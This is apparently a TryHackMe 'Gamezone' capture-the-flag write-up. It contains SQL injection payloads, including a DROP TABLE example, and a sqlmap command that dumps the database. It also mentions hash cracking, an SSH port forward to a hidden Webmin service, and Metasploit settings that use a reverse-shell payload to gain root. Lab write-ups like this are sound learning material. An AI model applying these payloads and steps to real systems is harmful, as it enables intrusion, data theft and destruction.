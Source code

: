 ```yaml
---
layout: default
title: Gamezone
parent: TryHackMe
nav_order: 5
---
```

![](pictures/logo-gamezone.png)


## Table of contents
{: .no_toc .text-delta }





- Task 1
- Task 2
- Task 3
- Task 4
- Task 5
- Task 6
{:toc}


## [](#header-2)Summary:

1. Use sql injection to obtain access through webportal
2. Use a sqlmap to extract hashed password3
3. Plug the hashed password into JohnTheRipper in order to crack it.
4. Access a blocked webpage running webmin via reverse ssh tunnel
5. Use exploit via metasploit on webmin page to escalate privileges


## [](#header-2)Task 1:

The first challenge was to perform a reverse image search on the cover of the website to see who the pictured character was.
![](pictures/pic-gamezone.png)

Which can be done with [reverse image search](https://www.reverseimagesearch.com/)

## [](#header-2)Task 2:
We find that our login portal is vulnerable to sql injection and try to exploit it.

The reason the below sql injection ' or 1=1 -- - works is because it essentially finishes the sql statement that the Log in: portion uses. 
![](pictures/sqli-gamezone.png)
```SQL
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

An example of a SQL injection that could prove dangerous is:

```SQL
'; DROP TABLE users; --'
```
This attack if inserted in our case would delete the users table altogether by cuting off the previous select statement and then continuing to execute DROP TABLE users; --' which deletes the users table. 

```SQL
SELECT * FROM users WHERE username = admin AND password := '; DROP TABLE users; --'
```




## [](#header-2)Task 3:
In the portion of the box we see a portal that has a search feature that can potentially be exploitable.

![](pictures/portal-gamezone.png)


First we'll be using burpsuite so that we can intercept the request in the search feature and pass it on to sqlmap to do our dirty work.



![](pictures/burp-gamezone.png)

Then we'll save this as a txt file “request.txt” and plug it into sqlmap with the following command:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```
-r uses the request provided
--dbms specifies which database you are targeting 
--dump dumps the whole database

With sqlmap we are able to find some very interesting stuff including possible table input as well as hashed passwords.

![](pictures/sqlmap-gamezone.png)


## [](#header-2)Task 4:
From here we are going to crack the hash that we found from sqlmap with the opensource password cracker JohnTheRipper

To do this we will use the following command: 


![](pictures/john-gamezone.png)

Once our password is found we can proceed to ssh into the machine.

![](pictures/ssh-gamezone.png)


from here we find the user flag within the /home/agent47 directory

## [](#header-2)Task 5:

From here we use the ss tool to see what open sockets we have available 
```bash
ss -tulpn
```
provided is a list of the flags and their purposes:

![](pictures/flag-gamezone.png)

We then find we have 5 open TCP connections and 2 udp.

![](pictures/conn-gamezone.png)


From here we can use one of these connections to create a reverse ssh tunnel on another port with 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```
Now we can have a tunnel from that port that was previously restricted on our localhost 



![](pictures/tun-gamezone.png)

Now we are able to access the page being hosted on that port within our local machine at localhost:10000

![](pictures/webmin-gamezone.png)


Logging in with our agent user crednetials we come to this web page which shows some version information that we can use to further exploit.

![](pictures/ver-gamezone.png)



## [](#header-2)Task 6:

In order to find a exploit for this application we can search

![](pictures/sploit-gamezone.png)

From here we use the following options once we get into our target module

options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run


![](pictures/root-gamezone.png)

And we get root!

## [](#header-2)Conclusion:

Even though this room was more of a walkthrough, I did find that I learned useful information on sql injections as well as reverse ssh tunnels.

